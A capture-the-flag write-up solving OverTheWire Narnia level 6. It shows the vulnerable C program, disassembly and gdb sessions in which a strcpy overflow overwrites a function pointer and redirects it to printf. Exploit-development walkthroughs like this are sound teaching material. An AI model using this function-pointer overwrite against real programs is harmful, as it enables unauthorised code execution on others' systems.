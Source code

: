 #Narnia6

narnia.labs.overthewire.org

**Username:** narnia6
**Password:** see [narnia5](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria5)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Let's see what we're working with.
>
>```
# ./narnia6
./narnia6 b1 b2
>```
>
> Not a lot happening, let's look at the source.
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
>
extern char **environ;
>
// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}
>
int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;
>
	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }
>
	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));
>
	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);
>
	exit(1);
}
>```
>
> So this looks a little more complex than the previous challenges.  I'm not the best with ```C```, so let's start from the top.  The first bit that I don't quite get is the ```int  (*fp)(char *)=(int(*)(char *))&puts, i;```.  Let's see what's going on here.  After a little googling I was able to get a little information on this line.  Basically we can read this as two separate declarations.  The first is a function pointer ```(*fp)``` to the function ```puts``` and the second is just for an integer ```i```.  That function pointer sounds interesting and really dangerous.  If we can change the pointer to point to something better than ```puts```, then when ```fp(b1)``` is called it will pass our user input to that other function.  I don't see any reference to ```/bin/sh``` in the code like some of the previous challenges so we'll have to find another way to spawn a shell. Let's just poke around a little bit and see if we can find anything.
>
>```
(gdb) run $(python -c 'print "A"') $(python -c 'print "A"*20')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"') $(python -c 'print "A"*20')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run $(python -c 'print "A"*12') $(python -c 'print "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"*12') $(python -c 'print "A"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
>```
>
> Well, it looks like we can overflow both parameters but our input doesn't appear to be large enough to stuff shellcode code in there.  We'll have to come up with another way.  Let's go back to the function pointer and take a closer look at that.
>
>```asm
             main:
08048559         push       ebp                                                 ; XREF=_start+23
0804855a         mov        ebp, esp
0804855c         push       ebx                                                 ; argument #1
0804855d         and        esp, 0xfffffff0
08048560         sub        esp, 0x30
08048563         mov        dword [ss:esp+0x28], 0x80483f0
0804856b         cmp        dword [ss:ebp+arg_0], 0x3
0804856f         je         0x8048592
>```
>
> We can see that the function pointer is saving the address ```0x80483f0``` to the stack.  Let's move to gdb and see if we can actually get the memory address where the function pointer is pointing to.
>
>```
(gdb) run $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /root/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048563 in main ()
(gdb) print $esp+0x28
$1 = (void *) 0xffffd4e8
>```
>
> Looks like the address on the stack that we need to try to overwrite is ```0xffffd4e8```.  Let's move to our actual input.
>
>```asm
08048657         mov        eax, dword [ss:ebp+arg_4]
0804865a         add        eax, 0x4
0804865d         mov        eax, dword [ds:eax]
0804865f         mov        dword [ss:esp+0x4], eax                             ; argument "src" for method j_strcpy
08048663         lea        eax, dword [ss:esp+0x20]
08048667         mov        dword [ss:esp], eax                                 ; argument "dst" for method j_strcpy
0804866a         call       j_strcpy
0804866f         mov        eax, dword [ss:ebp+arg_4]
08048672         add        eax, 0x8
08048675         mov        eax, dword [ds:eax]
08048677         mov        dword [ss:esp+0x4], eax                             ; argument "src" for method j_strcpy
0804867b         lea        eax, dword [ss:esp+0x18]
0804867f         mov        dword [ss:esp], eax                                 ; argument "dst" for method j_strcpy
08048682         call       j_strcpy
08048687         mov        eax, dword [ss:esp+0x28]
0804868b         and        eax, 0xff000000
08048690         mov        ebx, eax
08048692         call       get_sp
08048697         cmp        ebx, eax
08048699         jne        0x80486a7
>```
>
> Both parameters that get submitted are run through ```strcpy```.  Let's go back to gdb and set a breakpoint just after the second ```stfcpy``` and examine the stack.
>
>```
(gdb) run $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /root/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048687 in main ()
(gdb) x/50x $esp
0xffffd4c0:	0xffffd4d8	0xffffd709	0x00000036	0x08048712
0xffffd4d0:	0x00000003	0xffffd5a4	0x42424242	0x42424242
0xffffd4e0:	0x41414100	0x41414141	0x08048300	0x00000003
0xffffd4f0:	0x080486c0	0xf7fb6ff4	0xffffd578	0xf7e6de46
0xffffd500:	0x00000003	0xffffd5a4	0xffffd5b4	0xf7fdb860
0xffffd510:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x080482d0
0xffffd520:	0x00000001	0xffffd560	0xf7fedc16	0xf7ffdac0
0xffffd530:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
0xffffd540:	0xffffd578	0x7e999ad7	0x4c8f8cc7	0x00000000
0xffffd550:	0x00000000	0x00000000	0x00000003	0x08048450
0xffffd560:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
0xffffd570:	0x00000003	0x08048450	0x00000000	0x08048471
0xffffd580:	0x08048559	0x00000003
>```
>
> Ah, things appear to be coming together.  We can see that our input stops right before ```0xffffd4e8```, the address we want to try and overwrite.  Maybe we should try adding 4 more characters to our input.
>
>```
(gdb) run $(python -c 'print "A"*12') $(python -c 'print "B"*8')
Starting program: /root/narnia6 $(python -c 'print "A"*12') $(python -c 'print "B"*8')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048687 in main ()
(gdb) x/50x $esp
0xffffd4b0:	0xffffd4c8	0xffffd709	0x00000036	0x08048712
0xffffd4c0:	0x00000003	0xffffd594	0x42424242	0x42424242
0xffffd4d0:	0x41414100	0x41414141	0x41414141	0x00000000
0xffffd4e0:	0x080486c0	0xf7fb6ff4	0xffffd568	0xf7e6de46
0xffffd4f0:	0x00000003	0xffffd594	0xffffd5a4	0xf7fdb860
0xffffd500:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x080482d0
0xffffd510:	0x00000001	0xffffd550	0xf7fedc16	0xf7ffdac0
0xffffd520:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
0xffffd530:	0xffffd568	0x26e0f5dc	0x14f503cc	0x00000000
0xffffd540:	0x00000000	0x00000000	0x00000003	0x08048450
0xffffd550:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
0xffffd560:	0x00000003	0x08048450	0x00000000	0x08048471
0xffffd570:	0x08048559	0x00000003
>```
>
> Nice, it looks like we can control that address. Now we need to try and point to another function and see if our theory works in practice.  Looking through the binary the only thing that jumps out as an easy test is the ```printf``` function.
>
>```asm
             j_printf:
080483d0         jmp        dword [ds:printf@GOT]                               ; printf@GOT, XREF=main+40
>```
>
> Now we need to try and overwrite ```0xffffd4e8``` with ```0x080483d0```.
>
>```
(gdb) run $(python -c 'print "A"*8+"\xd0\x83\x04\x08"') $(python -c 'print "B"*4')
Starting program: /root/narnia6 $(python -c 'print "A"*8+"\xd0\x83\x04\x08"') $(python -c 'print "B"*4')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048687 in main ()
(gdb) x/50x $esp
0xffffd4c0:	0xffffd4d8	0xffffd70d	0x00000036	0x08048712
0xffffd4d0:	0x00000003	0xffffd5a4	0x42424242	0xffffd400
0xffffd4e0:	0x41414141	0x41414141	0x080483d0	0x00000000
0xffffd4f0:	0x080486c0	0xf7fb6ff4	0xffffd578	0xf7e6de46
0xffffd500:	0x00000003	0xffffd5a4	0xffffd5b4	0xf7fdb860
0xffffd510:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x080482d0
0xffffd520:	0x00000001	0xffffd560	0xf7fedc16	0xf7ffdac0
0xffffd530:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
0xffffd540:	0xffffd578	0x4ff74d8c	0x7de15b9c	0x00000000
0xffffd550:	0x00000000	0x00000000	0x00000003	0x08048450
0xffffd560:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
0xffffd570:	0x00000003	0x08048450	0x00000000	0x08048471
0xffffd580:	0x08048559	0x00000003
(gdb) c
Continuing.
AAAAAAAAЃ[Inferior 1 (process 4288) exited with code 01]
>```
>
> Wow. It worked. We can see the address overwritten ```0xffffd4e8``` with ```0x080483d0``` and then when we continue execution we see the results of ```fp(b1)```, which is our first parameter being printed via ```printf```.
